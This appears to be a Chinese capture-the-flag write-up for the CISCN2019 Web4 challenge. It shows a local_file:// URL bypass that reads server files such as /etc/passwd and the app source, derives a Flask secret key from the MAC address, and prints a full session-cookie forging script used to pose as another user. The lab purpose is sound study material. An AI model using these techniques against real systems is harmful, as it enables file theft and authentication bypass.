








# CISCN2019华东南赛区-Web4

参考博客：https://blog.csdn.net/mochu7777777/article/details/107656285

首先打开页面



点击Read somethings，发现没反应，查看网页源码


发现这里是这样跳转的。我们尝试随便访问一下

```
/read?url=www.baidu.com
```



这种路由处理方式并不像是PHP，尝试了`file:///etc/passwd`没有效果，猜测`Flask`，尝试`local_file:///`读取文件

```
/read?url=local_file:///etc/passwd
```



读取成功。

尝试读取源码

```
/read?url=local_file:///app/app.py
```



```
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

`session['username'] == 'fuck'`可得到flag，接下来就是要伪造`session`，而伪造`session`或者解密`session`都需要`密钥`，在源码中有密钥的生成方式：

```
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

对于伪随机数，如果seed是固定的，生成的随机数是可以预测的，也就是顺序固定的，所以只要知道seed的值即可。这里的seed使用的uuid.getnode()的值，该函数用于获取Mac地址并将其转换为整数。

那么就需要读取Mac地址local_file:///sys/class/net/eth0/address
得到Mac地址：ae:02:dd:61:cb:b9
然后使用Python2得出密钥（Python2和Python3保留的位数不一样）

```
>>> import random
>>> random.seed(0xae02dd61cbb9)
>>> print(str(random.random()*233))
187.265372344
```

我这里用的kali的python2。



然后利用Flask

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e
else: # > 3.4
    class FSCM(ABC):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e


if __name__ == "__main__":
    # Args are only relevant for __main__ usage
    
    ## Description for help
    parser = argparse.ArgumentParser(
                description='Flask Session Cookie Decoder/Encoder',
                epilog="Author : Wilson Sumanang, Alexandre ZANNI")

    ## prepare sub commands
    subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')

    ## create the parser for the encode command
    parser_encode = subparsers.add_parser('encode', help='encode')
    parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
                                help='Secret key', required=True)
    parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
                                help='Session cookie structure', required=True)

    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                                help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                                help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if(args.subcommand == 'encode'):
        if(args.secret_key is not None and args.cookie_structure is not None):
            print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif(args.subcommand == 'decode'):
        if(args.secret_key is not None and args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value,args.secret_key))
        elif(args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value))
```

user session：



```
eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.aBesfw.Bnyv1q4-p7MwmbKZpd3bqsikHo4
```

先用脚本解密

```
python3 flask_session_cookie_manager3.py decode -c "eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.aBesfw.Bnyv1q4-p7MwmbKZpd3bqsikHo4" -s "187.265372344" 

输出：
{'username': b'www-data'}
```

将`{'username': b'www-data'}`修改为`{'username': b'fuck'}`然后重新加密生成session

```
python3 flask_session_cookie_manager3.py encode -s "187.265372344" -t "{'username': b'fuck'}"

输出：
eyJ1c2VybmFtZSI6eyIgYiI6IlpuVmphdz09In19.aBexnA.HoH-q2eUlMfL0St0IImanIE-_mM
```

将伪造的session替换原来的session，然后再访问/flag即可拿到flag。




